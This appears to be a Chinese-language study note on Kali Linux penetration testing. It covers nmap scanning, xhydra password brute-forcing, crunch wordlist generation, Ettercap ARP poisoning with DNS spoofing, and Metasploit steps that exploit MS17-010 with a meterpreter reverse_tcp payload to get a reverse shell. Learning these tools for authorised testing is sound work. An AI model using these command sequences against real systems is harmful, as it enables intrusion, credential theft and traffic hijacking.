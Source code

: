 ## Kali渗透

> 测试渗透步骤

```tex
1.确定要渗透的目标网站
2.收集目标网站的相关信息，比如操作系统，数据库，端口服务，所使用的脚本语言，子域名以及CMS系统等
3.漏洞探测，利用收集到的信息，寻找目标的脆弱点
4.漏洞利用，找到对方系统的弱点后，进一步攻克对方系统，拿到目标系统的权限
5.渗透目标内网的其他主机，把获得的目标权限作为跳板，进一步攻克内网其他主机
6.验证漏洞和修复漏洞
7.清除渗透痕迹，撰写测试报告
```

## nmap扫描

```tex
port:端口
state:端口状态
service:端口服务
open:端口开放的
closed:端口关闭的
filtered:端口被防火墙IDS/IPS屏蔽，无法确定状态
unfiltered:端口未被屏蔽，但是否开放需要进一步确认
open|filtered:端口是开放的或被过滤
closed|filteres:端口关闭或被过滤
```

> 用法

```tex
nmap -sS -sV -T4 ip
-sS 使用TCP SYN扫描
-sV 进行版本探测
-T4 使用的是一种快速扫描的方式 扫描速度的级别范围是在(T0-T5)之间，级别越高，扫描速度越快

nmap -A -T4 ip
-A 采用全面扫描的方式

nmap 192.168.31.0/24
扫描整个网段存活的主机 ， 扫描网络地址

nmap --top-ports 100 ip
--top-ports 100 扫描最有可能开放的100个端口

nmap --script=vuln ip
--script=vuln 根据脚本扫描常见漏洞  脚本vuln
```

## xhydra 爆破密码

```tex
对协议进行口令账号密码爆破
支持FTP,MYSQL,SMTP,TELNET,SSH等众多的协议爆破
```

```tex
xhydra 是hydra的图形化界面

**Target页面**
Single Target 目标IP地址填写，单个爆破目标
Target List IP地址列表添加 批量爆破时使用 只需要准备IP地址列表就可以了
port 爆破的端口号  默认的就可以
protocol 协议

output Options中勾选 Be Verbose 和 Show Attempts

**Passwords页面**
Username 账户名
Username List 当不知道账户名时，准备一个账户名字典进行爆破
Loop around users 使用账户字典时需要勾选

**Turning页面**
performance Options
	Number of tasks 设置线程数 一般设置10-50之间
```

## crunch生成字典

```tex
参数
min 设定最小字符串长度（必选）
max 设定最大字符串长度（必选）
-o  将生成的字典保存在指定文件中
-t  指定密码输出的格式
-p  指定元素组合

特殊字符
% 代表数字
^ 代表特殊符号
@  代表小写字母
，  代表大写字母

crunch 11 11 -t 1388888%%%% > mobile.txt 生成手机号

crunch 6 6 -f /usr/share/crunch/charset.lst hex-lower -o 3.txt
使用crunch的库文件charset.lst中的模板 hex-lower生成6位数的词典

crunch 6 6 0123456789 > 5.txt  使用0-9生成字典

crunch 3 3 -p zqd 1990 29 > 6.txt 生成这三个字符串组合的字典
```

## DNS劫持	Ettercap

> 启动网站服务apache2

```tex
systemctl start apache2
```

> 编辑dns文件

```tex
leafpad /etc/ettercap/etter.dns
```

![image-20211111101542108](C:\Users\zwj\AppData\Roaming\Typora\typora-user-images\image-20211111101542108.png)

注释这三条

![image-20211111101620904](C:\Users\zwj\AppData\Roaming\Typora\typora-user-images\image-20211111101620904.png)

增加两条，是发攻击的地址

```tex
ettercap -G

sniff -- unified snitting  -- eth0网卡
Hosts -- Scan for hosts扫描其他主机
Hosts -- Hosts list
网关地址添加到target1
目标地址添加到target2
Mitm --ARP poisoning
plugins --Manage the plugins --dns spoof双击

Start -start sniffing
```

![image-20211111102218489](C:\Users\zwj\AppData\Roaming\Typora\typora-user-images\image-20211111102218489.png)

## MSF (The Metasploit framework)

```tex
漏洞攻击工具，自带部分已知的软件漏洞的专业级漏洞工具
```

> 命令

```bash
#启动msf
msfconsole  
	# 模块
	exploits #利用漏洞进行攻击动作的模块
	auxiliary #负责信息收集、扫描、嗅探、指纹识别、口令猜测等功能的辅助模块，经常使用
	post #后渗透模块，经常使用
	payloads #代表成功执行exploits模块后，真正在目标系统执行的代码或指令，经常使用
	encoder #对payload加密的模块，使用较少
	nop #提高payload的稳定性模块，使用较少
	evasion #反杀毒软件的木马
#展示模块细节
show exploits
#通过漏洞名称搜索
search ms17-010
#使用
查询出后，use 序号，进入模块内部
#模块信息
info
#在模块信息中找到必须要设置的信息
set rhosts 192.168.31.64
#运行检测漏洞
run/exploit
#再次查询
search ms17-010
#使用payload
use 3
#info配置信息
set rhosts ip
#设置payload
set payload windows/x64/meterpreter/reverse_tcp
#查询payload信息
show options
#配置攻击机地址
set lhosts ip
#运行
run
#成功后获得反弹shell
```

## dirbuster

```tex
DirBuster是一个多线程的基于Java的应用程序设计用于暴力破解Web 应用服务器上的目录名和文件名的工具 
```

![image-20211115085959707](C:\Users\zwj\AppData\Roaming\Typora\typora-user-images\image-20211115085959707.png)

## kali自带字典

```tex
usr/share/dirbuster/wordlists
```

